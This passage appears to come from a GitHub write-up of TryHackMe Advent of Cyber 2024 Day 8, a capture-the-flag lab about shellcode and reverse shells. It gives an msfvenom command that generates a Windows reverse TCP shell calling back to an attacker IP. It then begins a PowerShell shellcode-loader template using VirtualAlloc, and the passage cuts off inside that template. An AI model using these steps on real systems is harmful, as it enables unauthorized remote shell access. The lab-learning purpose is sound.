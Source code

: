 # 🎄 TryHackMe Advent of Cyber 2024 – Day 8: Shellcodes and Reverse Shells

## Objectives 🎯

Day 8 focuses on **shellcode generation**, **reverse shell execution**, and investigating tampered shellcode. The goal of this challenge was to:
- Understand how to generate shellcode with `msfvenom`.
- Use PowerShell to execute shellcode on a target system.
- Establish a reverse shell to retrieve the flag from the target.
- Identify tampered shellcode and restore functionality.

## Steps 🚀

### **Step 1: Start the Machines**
1. **Start the Virtual Machine (VM)**:
   - Initiate the VM hosting the vulnerable system by clicking **Start Machine**.
   - Use RDP if necessary to access the VM, with the provided credentials:
     - Username: `glitch`
     - Password: `Passw0rd`

2. **Start the AttackBox**:
   - Open the AttackBox environment by clicking **Start AttackBox**.

### **Step 2: Generate the Reverse Shell Shellcode**
1. **Open the Terminal on the AttackBox**.
2. **Generate Shellcode**:
   - Run the following command in the terminal:
     ```
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_BOX_IP LPORT=4444 -f powershell
     ```
     - Replace `ATTACK_BOX_IP` with your actual AttackBox IP address (use `ifconfig` to find it).
     - This generates a PowerShell-compatible hex-encoded shellcode.

3. **Copy the Shellcode**:
   - Note the generated shellcode and copy it for later use.

### **Step 3: Create a PowerShell Script**
1. **Create a New File**:
   - On the AttackBox Desktop, right-click → **Create Document** → **Empty File**.
   - Name the file `shellcode.ps1`.

2. **Paste the Script Template**:
   - Copy the provided PowerShell script template into the file:
     ```
     $VrtAlloc = @"
     using System;
     using System.Runtime.InteropServices;

     public class VrtAlloc{
         [DllImport("kernel32")]
         public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
     }
     "@
